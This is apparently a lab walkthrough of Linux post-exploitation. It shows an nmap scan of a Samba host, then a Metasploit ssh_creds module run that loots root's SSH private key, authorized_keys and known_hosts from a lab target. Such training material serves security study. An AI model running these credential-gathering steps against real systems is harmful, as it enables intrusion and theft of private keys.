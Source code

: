 # Linux post exploitation modules

## Exploit the server

nmap
```
root@attackdefense:~# nmap -sS -sV -p- 192.209.15.3
Starting Nmap 7.70 ( https://nmap.org ) at 2021-05-02 00:12 UTC
Nmap scan report for target-1 (192.209.15.3)
Host is up (0.000015s latency).
Not shown: 65533 closed ports
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 02:42:C0:D1:0F:03 (Unknown)
Service Info: Host: VICTIM-1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.20 seconds
```

## SSH creds

https://www.rapid7.com/db/modules/post/multi/gather/ssh_creds/

> This module will collect the contents of all users' .ssh directories on the targeted machine. Additionally, known_hosts and authorized_keys and any other files are also downloaded. This module is largely based on firefox_creds.rb. 

```
msf5 post(multi/gather/ssh_creds) > set SESSION 1
SESSION => 1
msf5 post(multi/gather/ssh_creds) > run

[*] Finding .ssh directories
[*] Looting 1 directories
[+] Downloaded /root/.ssh/authorized_keys -> /root/.msf4/loot/20210502002158_default_192.209.15.3_ssh.authorized_k_465869.txt
[-] Could not load SSH Key: Neither PUB key nor PRIV key
[+] Downloaded /root/.ssh/id_rsa -> /root/.msf4/loot/20210502002158_default_192.209.15.3_ssh.id_rsa_721179.txt
[-] Could not load SSH Key: Neither PUB key nor PRIV key
[+] Downloaded /root/.ssh/id_rsa.pub -> /root/.msf4/loot/20210502002158_default_192.209.15.3_ssh.id_rsa.pub_629088.txt
[-] Could not load SSH Key: Neither PUB key nor PRIV key
[+] Downloaded /root/.ssh/known_hosts -> /root/.msf4/loot/20210502002158_default_192.209.15.3_ssh.known_hosts_443334.txt
[-] Could not load SSH Key: Neither PUB key nor PRIV key
[*] Post module execution completed
```
